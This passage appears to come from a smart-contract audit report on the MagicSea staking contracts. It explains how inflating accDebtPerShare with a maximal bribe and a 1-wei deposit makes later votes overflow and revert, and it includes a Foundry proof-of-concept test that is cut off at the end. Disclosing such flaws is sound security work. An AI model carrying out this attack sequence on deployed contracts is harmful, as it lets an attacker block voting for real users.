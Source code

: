 In the presented scenario, the value of `totalRewards` will be huge (close to `type(uint256).max`) and the value of `totalSupply` will only be 1, which will cause the `accDebtPerShare` ends up being a huge value. 

Later, when legitimate voters try to vote for that same pool, the transaction will revert due to overflow because the operation of `deposit * accDebtPerShare` will result in a value higher than `type(uint256).max`:

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/libraries/Rewarder2.sol#L27-L29
```solidity
function getDebt(uint256 accDebtPerShare, uint256 deposit) internal pure returns (uint256) {
    return (deposit * accDebtPerShare) >> Constants.ACC_PRECISION_BITS;
}
```

## Impact

By executing this sequence, an attacker can block all votes to specific pools during specific periods. If wanted, an attacker could block ALL votes to ALL pools during ALL periods, and the bug can only be resolved by upgrading the contracts or deploying new ones. 

There aren't any external requirements or conditions for this attack to be executed, which means that the voting functionality can be gamed or completely hijacked at any point in time. 

## PoC

The following PoC can be pasted in the file called `BribeRewarder.t.sol` and can be executed by running the command `forge test --mt testOverflowRewards`.

```solidity
function testOverflowRewards() public {
    // Create custom token
    IERC20 customRewardToken = IERC20(new ERC20Mock("Custom Reward Token", "CRT", 18));

    // Create rewarder with custom token
    rewarder = BribeRewarder(payable(address(factory.createBribeRewarder(customRewardToken, pool))));

    // Mint the max amount of custom token to rewarder
    ERC20Mock(address(customRewardToken)).mint(address(rewarder), type(uint256).max);

    // Start bribes
    rewarder.bribe(1, 1, type(uint256).max);

    // Start period
    _voterMock.setCurrentPeriod(1);
    _voterMock.setStartAndEndTime(0, 2 weeks);

    vm.warp(block.timestamp + 10);

    // Vote with 1 wei to initialize `accDebtPerShare` to a huge value
    vm.prank(address(_voterMock));
    rewarder.deposit(1, 1, 1);

    vm.warp(block.timestamp + 1 days);

    // Try to vote with 1e18 -- It overflows
    vm.prank(address(_voterMock));
    vm.expectRevert(stdError.arithmeticError);
    rewarder.deposit(1, 1, 1e18);

    // Try to vote with 1e15 -- Still overflowing
    vm.prank(address(_voterMock));
    vm.expectRevert(stdError.arithmeticError);
    rewarder.deposit(1, 1, 1e15);
```